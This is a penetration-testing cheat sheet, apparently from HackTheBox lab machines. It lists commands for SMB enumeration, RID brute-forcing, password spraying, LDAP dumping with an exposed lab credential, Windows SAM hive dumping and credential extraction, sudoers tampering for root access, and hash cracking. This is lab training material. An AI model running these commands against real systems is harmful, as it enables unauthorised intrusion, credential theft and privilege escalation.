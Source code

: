 #### SMB:
  * smbclient -N -L //10.10.11.35
  * netexec smb 10.10.11.35 -u 'a' -p '' --shares
  * smbclient -U Guest //10.10.11.35/share
  * netexec smb 10.10.11.35 -u Guest -p '' --rid-brute
  * netexec smb 10.10.11.35 -u username.txt -p 'password123!'

### LDAP:
  * ldapdomaindump 10.10.11.35 -u 'domain\username' -p 'password123!'
  * ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'

#### Powershell:
  * Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue

#### System SAM Hive dump:
  * cd c:\
  * mkdir Temp
  * reg save hklm\sam c:\Temp\sam
  * reg save hklm\system c:\Temp\system
  * cd Temp
  * download sam
  * download system
  * pypykatz registry --sam sam system

#### Subdomain Enumeration:
  * ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18

#### Directory Enumeration
  * gobuster dir -u http://lms.permx.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### Symlink Techniques:
  * ln -s /etc/sudoers /home/john/sudoerss

#### Manipulating sudoers file:
  * vi /etc/sudoers
    * john ALL=(ALL:ALL) NOPASSWD: ALL
   
#### Hash cracking:
  * john john.hash -w=/usr/share/wordlists/rockyou.txt

#### SSH local port forwarding:
  * Service in running on victim machine 127.0.0.1:8080 and can only be accessed via localhost
    * kali-Attacker$ ssh -L 0.0.0.0:9999:127.0.0.1:PORT john@VICTIM-IP
    * kali-Attacker$ curl -I http://127.0.0.1:9999
   
#### Exploiting Chrome Debugger:
  * https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/

